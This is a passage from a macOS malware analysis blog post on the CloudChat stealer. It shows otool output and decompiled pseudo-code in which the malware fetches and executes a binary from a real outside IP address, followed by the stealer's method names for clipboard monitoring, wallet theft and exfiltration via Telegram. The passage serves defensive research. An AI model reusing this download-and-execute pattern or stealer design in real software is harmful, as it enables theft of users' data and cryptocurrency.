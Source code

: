 ![Image 45](https://objective-see.org/images/blog/blog_0x53/persist.png) **Persistence:** None

Many stealers don’t persist, and CloudChat is no exception.

![Image 46](https://objective-see.org/images/blog/blog_0x53/capabilities.png) **Capabilities:** Stealer

If an unsuspecting victim runs the CloudChat application, the malicious logic (found within the `libCloudchat.dylib`) will be executed:

![Image 47](https://objective-see.org/images/blog/blog_0x7D/cloudchat_1.png)

CloudChat's libCloudchat.dylib

We can use `otool` to dump the application’s dependencies, to see (as expected) a dependency on this library:

 % otool -l CloudChat.app/Contents/MacOS/CloudChat  
...
Load command 45
          cmd LC\_LOAD\_DYLIB
      cmdsize 80
         name **@executable\_path/../Frameworks/libCloudchat.dylib (offset 24)**
   time stamp 2 Wed Dec 31 14:00:02 1969
      current version 0.0.0
compatibility version 0.0.0

The Kandji researchers noted that after performing a geolocation check (to avoid infecting victims in China), the malware will downloaded a binary from `45.77.179.89`. Saving it as `.Safari_V8_config` it then executes it:

```
result = _main.downloadFile(..., "http://45.77.179.89/static/clip",);
if (!result) {
    _os.chmod(...);
    _main.executeFileInBackground(...);
}
```

The downloaded binary (`.Safari_V8_config`) what implements the stealer logic. By looking at it method names, we can get a pretty good idea about what it is up to:

```
_main.monitorClipboard
_main.executeOnce
_main.getHostnameAndUsername
_main.copyAndCompressWalletPlugins
_main.compressLogsdata
_main.uploadLogsdata
_main.isValidPrivateKey
_main.replaceAddresses
_main.sendTelegramNotification
```

First (again as noted by the Kandji researchers), it performs a basic survey of the infected system, which is sends to a Telegram bot. The logic for the former can be found in the `getHostnameAndUsername` method, while the latter, in the aptly named `sendTelegramNotification` method. Embedded strings within this method show it (ab)uses `curl` in order to send the telegram notification:
